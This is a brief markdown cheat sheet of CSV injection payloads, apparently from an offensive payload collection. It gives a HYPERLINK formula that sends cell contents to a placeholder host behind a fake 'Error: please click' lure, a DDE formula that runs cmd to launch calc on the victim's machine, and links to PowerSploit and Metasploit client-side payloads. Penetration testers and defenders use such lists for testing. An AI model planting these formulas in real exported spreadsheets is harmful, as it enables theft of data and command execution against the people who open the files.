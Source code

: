 ## CSV Injection
Reference
```
https://www.contextis.com/en/blog/comma-separated-vulnerabilities
https://blog.zsec.uk/csvhub/
```
Formulas  
```
=SUM(A1,A2)

```
Data Exfiltration
```
=HYPERLINK("http://host?leak="&A1&A2,"Error: please click for further information")
```
Client Side RCE ( Trust Relationships )
```
=cmd|' /C calc'!A0
```
Powersploit and Metasploit Client Side Payloads
```
https://github.com/PowerShellMafia/PowerSploit
https://www.offensive-security.com/metasploit-unleashed/client-side-exploits/
```
